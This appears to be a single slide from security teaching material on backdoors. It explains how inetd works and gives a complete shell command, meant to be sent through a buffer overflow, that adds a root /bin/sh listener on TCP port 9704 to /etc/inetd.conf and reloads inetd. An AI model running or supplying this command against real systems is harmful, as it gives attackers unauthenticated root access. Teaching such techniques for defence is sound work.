

# Create a backdoor Using Inetd
Send a command in the buffer overflow that edits inetd.conf
On UNIX machines, inetd listens for incoming connections on the network and spawns a process to handle the request (e.g., telnet, ftp, ssh, etc.)
Send a command like:
/bin/sh –c “echo 9704 stream tcp nowait root /bin/sh sh –I” >>
/etc/inetd.conf; killall –HUP inetd
Will make inetd listen on TCP 9704 and spawn a shell to whomever connects there